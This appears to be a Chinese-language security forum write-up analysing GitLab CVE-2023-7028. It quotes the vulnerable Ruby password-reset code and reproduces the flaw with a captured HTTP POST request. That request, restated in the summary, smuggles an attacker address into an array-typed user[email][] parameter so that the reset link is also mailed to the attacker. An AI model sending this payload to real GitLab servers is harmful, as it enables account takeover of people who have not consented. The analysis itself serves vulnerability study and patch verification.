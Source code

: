 写在前面
====

GitLab是一个开源的仓库管理系统，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。它类似于GitHub，能够浏览源代码，管理缺陷和注释。  
当gitlab启用邮箱登录时，攻击者如果掌握一个准确的邮箱账户的条件下，可以利用CVE-2023-7028漏洞重置该账户的密码。

代码分析
====

通过[补丁链接](https://gitlab.com/gitlab-org/gitlab/-/commit/44deb06e2c8e1c1b9424fc89dec4f60c8806711a)可以定位到邮箱重置密码的漏洞点：`app/models/concerns/recoverable_by_any_email.rb`

以下是关键代码：

**（重点代码已标记注释）**

```ruby
module RecoverableByAnyEmail
  extend ActiveSupport::Concern
  class_methods do
    # 这个方法重写了 Devise 的 send_reset_password_instructions 方法
    def send_reset_password_instructions(attributes = {})
      # 从传入的哈希中删除 :email 键并将其对应的值赋给 email 变量
      email = attributes.delete(:email)
      super unless email # 除非 email 变量为非 nil 或非 false，否则继续执行后续逻辑
      recoverable = by_email_with_errors(email)
      # 如果找到了用户，就向该用户发送密码重置指令
      recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?
      recoverable
    end

    private
    def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
  end

  # 这个实例方法用于发送密码重置指令
  def send_reset_password_instructions(opts = {})
    token = set_reset_password_token
    send_reset_password_instructions_notification(token, opts)
    token
  end

  private
  def send_reset_password_instructions_notification(token, opts = {})
    send_devise_notification(:reset_password_instructions, token, opts)
  end
end
```

`attributes.delete(:email)` 将从 `attributes` 哈希中删除键为 `:email` 的键值对，并返回该键对应的值。然后，这个返回的值被赋值给变量 `email`。

举个例子，假设 `attributes` 哈希是这样的：

```ruby
attributes = {email: 'test@example.com'}
```

执行 `email = attributes.delete(:email)` 后，`email` 变量的值将会是 `'test@example.com'`

如果说我们传入的`attributes`如下：

```ruby
attributes = {"email" => ["admin@gmail.com", "attacker@gmail.com"]}
```

那么执行 `email = attributes.delete("email")` 将会返回一个数组

`["admin@gmail.com", "attacker@gmail.com"]`。这个数组将会被赋值给 `email` 变量。

然后执行`recoverable = by_email_with_errors(email)`，验证该邮箱是否存在对应的用户。

```ruby
def by_email_with_errors(email)
      # 查找具有指定电子邮件地址且已确认的用户。如果找不到，则创建一个新的用户对象
      record = find_by_any_email(email, confirmed: true) || new
      # 如果新的用户对象还没有被保存到数据库，则在其上添加一个错误信息
      record.errors.add(:email, :invalid) unless record.persisted?
      record
    end
```

然后执行`recoverable.send_reset_password_instructions(to: email) if recoverable&.persisted?`向email变量中的`所有邮箱`发送重置密码邮件。

漏洞复现
====

1. 网站首页如下图：

![image-20240116154129077](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-42106ccd97ae21b11908a867c10d0d6b23ba4a8b.png)

2. 点击忘记密码，进入密码重置页面，输入目标用户邮箱，然后抓包修改 **(红框部分是修改后的)**

```php
POST /users/password HTTP/1.1
Host: 172.23.80.161:3000
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: preferred_language=en; 16.7.0-hide-alert-modal=true; super_sidebar_collapsed=false; visitor_id=cead9e96-58e0-4537-93a9-1c201fe6a496; known_sign_in=OWpJMDR5eGNPVkFadi9YR3BFQUNjY3lNMk1od1BDTGtpZWU5RitKN0ozcENXVG13a3Q4M05SeWpDZU55bVkzaE9mNUFicy9iaEpGMC9YaWFqSW4xMllzMHFyNC9KRGZqaTA4RFhZcUxEWklPcm05UkwyK09hejg1SThPcjBOT3otLVJwRDNPdTVWelhuWmdpRmlrSXl3SUE9PQ%3D%3D--16245baa4982bcf678585093115d129b736babfc; _gitlab_session=3c585a48c6eb7abb73ddb73941173e34
Origin: http://172.23.80.161:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Referer: http://172.23.80.161:3000/users/password/new
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 139

authenticity_token=0t85NavC_Or-tRPBS8R4XX5I8N0z-3_D7j2624iIXer-MxdH5_wBKxxI6xLXse2MWDfgiaUC9LTF1W_mfA5mYQ&user%5Bemail%5D%5B%5D=admin@gmail.com&user%5Bemail%5D%5B%5D=evil@gmail.com
```

![image-20240116152920289](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-f86d603d23941497c0d09f908e47b5a215425149.png)

![image-20240116153936713](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e1ffb97d5f327fee9c0dcbd2ca889e70853178c0.png)

总结
==

- 在开启邮箱登陆和配置SMTP后，只需要知道目标账号的邮箱，即可重置密码。
- 在重置密码的页面抓包，修改`user[email]=admin@gmail.com`为`user[email][]=admin@gmail.com&user[email][]=evil@gmail.com`，传入数组类型的`user[email][]`，即可向攻击者邮箱也发送重置密码链接。
